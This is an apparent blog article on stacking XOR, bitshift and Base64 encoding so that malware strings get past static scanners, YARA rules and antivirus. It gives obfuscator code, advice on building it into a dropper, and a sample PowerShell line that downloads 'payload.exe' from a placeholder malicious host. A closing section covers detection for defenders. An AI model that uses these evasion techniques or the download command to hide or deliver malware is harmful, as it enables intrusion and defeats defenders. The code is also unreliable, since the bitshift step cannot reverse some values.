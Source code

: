# XOR is Weak? Think Again — Meet XORception

### Discover how layered XOR obfuscation using bitshifts, Base64, and dynamic logic turns simple encoding into a nightmare for static analysis tools.

## ✨ Introduction

In the cat-and-mouse game of cybersecurity, static analysis tools have long stood as the first line of defense against malware and reverse engineering. But what happens when adversaries weaponize simplicity, turning an elementary obfuscation technique like XOR into a layered fortress of logic gates and confusion? Welcome to the world of XORception.

> "Basic XOR obfuscation? That’s amateur hour. Let’s talk XORception — XOR within XOR, logic gates, and chaos theory."

This article breaks down how threat actors (or red teamers in simulation mode) can turn XOR into an obfuscation powerhouse by combining it with multiple techniques to bypass static scanners, YARA signatures, and even human analysts.

---

## 🔍 XOR Obfuscation 101

XOR (exclusive OR) is one of the most common and simple obfuscation techniques used in malware:

```python
# Basic XOR obfuscation
"""Returns XOR encoded string"""
def xor_encrypt(data, key):
    return ''.join(chr(ord(c) ^ key) for c in data)
```

Why it’s used:

* Fast and reversible
* Easy to implement in low-level code
* Modifies signature patterns to bypass string detection

**But it's also predictable.** Static analysis tools like CyberChef or even strings + grep combos can unravel single-layer XOR with ease.

---

## 🧩 Layering Obfuscation Like an OP Hacker

To truly confuse analysis tools and analysts, combine XOR with:

* **Bitwise Shifting** (`<<`, `>>`)
* **Base64 + ROT13 Chains**
* **Custom Encoding Tables**
* **Byte Injection & Reordering**
* **Runtime Key Generation**

### Example: Python Multi-Layer XOR Obfuscator

```python
import base64

def layered_obfuscate(data, key):
    # Step 1: XOR
    xored = ''.join(chr(ord(c) ^ key) for c in data)
    # Step 2: Bitshift + junk inject
    shifted = ''.join(chr(((ord(c) << 1) + 1) % 256) for c in xored)
    # Step 3: Base64 Encode
    return base64.b64encode(shifted.encode()).decode()
```

### Example: Corresponding Deobfuscator

```python
import base64

def layered_deobfuscate(encoded_data, key):
    # Step 1: Base64 decode
    decoded = base64.b64decode(encoded_data).decode()
    # Step 2: Reverse Bitshift + junk removal
    unshifted = ''.join(chr(((ord(c) - 1) >> 1) % 256) for c in decoded)
    # Step 3: XOR decryption
    return ''.join(chr(ord(c) ^ key) for c in unshifted)
```

Test Case:

```python
original = "powershell"
key = 23
obf = layered_obfuscate(original, key)
print("Obfuscated:", obf)
print("Deobfuscated:", layered_deobfuscate(obf, key))
```

---

## 🔒 Breaking Static Analysis Tools

Static analysis depends on:

* **Pattern Matching**
* **String Discovery**
* **Code Flow Prediction**

Layered XOR wrecks this by:

* **Encoding known patterns like `powershell`, `wget`, etc.**
* **Generating keys at runtime using system attributes (e.g., PID, time)**
* **Injecting junk operations that confuse decompilers (especially in PowerShell & Assembly)**

### IDA/Ghidra Demo

Take a payload string like:

```powershell
Invoke-WebRequest -Uri http://malicious.site -OutFile payload.exe
```

After encoding through multiple layers, the same string becomes garbage data until runtime deobfuscation. Tools like IDA or strings just see:

```powershell
"HkfjqJw9+Vt....QmI="
```

---

## 🧱 Bypassing YARA and AV Signatures

YARA rules often look for recognizable patterns. Obfuscated payloads using layered XOR techniques can evade them easily.

### Example:

```python
# Encode known suspicious term
original = "powershell"
encoded = layered_obfuscate(original, 23)
print(encoded)
```

Now you can drop this into a dropper that reconstructs the command only at execution.

To AV engines? It’s just a harmless string.

**Bonus:** Rotate keys for every obfuscation pass to make detection harder.

---

## ⚠️ Defenders, Don’t Sleep

While this sounds scary, defenders can fight back:

* **Entropy Analysis**: High entropy blocks may suggest encoding
* **Sandbox Detonation**: Observe behavior during runtime
* **Heuristic Analysis**: Look for dynamic string building, exec() usage, PowerShell spawning, etc.

Use tools like:

* `flare-floss`
* `de4dot`
* `IDA Pro + HexRays`
* `Box-js`
* Custom scripts for deobfuscation sequence bruteforce

---

## 📊 Conclusion

Obfuscation isn’t about hiding — it’s about **delaying** and **confusing**. XOR, while basic, becomes a devastating tool when you **layer it smartly**, add randomness, and combine it with logic operations.

> "XOR is the hacker’s duct tape — cheap, dirty, but when layered smartly, it's a whole fortress."

---
